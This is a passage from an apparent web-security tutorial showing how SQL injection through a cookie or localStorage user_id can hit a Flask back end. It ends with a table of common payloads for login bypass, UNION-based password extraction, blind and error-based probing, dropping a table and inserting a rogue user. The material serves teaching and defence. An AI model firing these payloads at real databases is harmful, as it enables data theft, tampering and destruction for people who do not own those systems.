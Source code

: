 In this example, the `user_id` stored in the cookie is directly used in the SQL query without proper sanitization. An attacker can modify the cookie in their browser's developer tools and inject SQL code.

**Exploiting the vulnerability:**

The attacker could manipulate the `user_id` cookie to inject a malicious SQL query:

```
user_id=1 OR 1=1;
```

This will modify the query to:

```sql
SELECT * FROM users WHERE id = 1 OR 1=1;
```

As a result, all users will be retrieved from the database, and sensitive data could be leaked.

### Example of SQL Injection Via LocalStorage

LocalStorage is a browser-based storage mechanism that allows web applications to store data on the client side. If an application retrieves data from localStorage and directly uses it in SQL queries without validation, this can lead to SQL injection vulnerabilities.

In a front-end JavaScript app, the `user_id` could be retrieved from localStorage and passed as part of an HTTP request to the Flask API:

```javascript
// Simulating vulnerable code in front-end
let userId = localStorage.getItem("user_id");
fetch(`/localstorage?user_id=${userId}`)
  .then(response => response.text())
  .then(data => console.log(data));
```

Attackers can easily manipulate `localStorage` data through the browser's developer tools:

```javascript
localStorage.setItem("user_id", "1 OR 1=1");
```
This would allow an SQL injection attack similar to the cookie example.

## Create a list of SQL Injection Payloads

SQL injection payloads are specific inputs crafted by attackers to manipulate SQL queries in vulnerable applications. These payloads exploit weaknesses in handling user input and can result in data exfiltration, database manipulation, or unauthorized access. Below are some common types of SQL injection payloads, categorized by their purpose or technique:

| **Payload Type**          | **SQL Injection Payload**                                                                                              | **Description**                                                                                          |
|---------------------------|------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------|
| **Authentication Bypass** | `' OR 1=1 --`                                                                                                           | Bypasses login by making the condition always true.                                                       |
| **Extract Data**          | `' UNION SELECT username, password FROM users --`                                                                       | Retrieves usernames and passwords from the `users` table using the `UNION` keyword.                       |
| **Error-Based Injection** | `1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.tables GROUP BY x) a) -- ` | Forces an error to reveal the database name and structure details.                                       |
| **Union-Based Injection** | `' UNION SELECT null, null, database(), null --`                                                                        | Returns the current database name using a UNION query.                                                    |
| **Time-Based Blind**      | `1' AND IF(1=1, SLEEP(5), 0) --`                                                                                        | Delays the response by 5 seconds if the condition is true (useful for blind SQL injection).                |
| **Boolean-Based Blind**   | `1' AND 1=1 -- `                                                                                                        | This evaluates to true and the page will load normally. Used for blind SQL injection to infer database behavior. |
| **Extract Column Data**   | `' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --`                                | Retrieves all column names from the `users` table.                                                        |
| **Comment Injection**     | `1'; DROP TABLE users -- `                                                                                              | Drops the `users` table by terminating the query and appending a malicious SQL command.                   |
| **Stacked Queries (MySQL)**| `1'; INSERT INTO users (username, password) VALUES ('hacker', '12345') --`                                              | Executes two queries: one regular and one malicious (inserting a new user).                               |
| **Extract MySQL Version** | `' UNION SELECT @@version, null, null --`                                                                               | Retrieves the MySQL version using `@@version`.                                                            |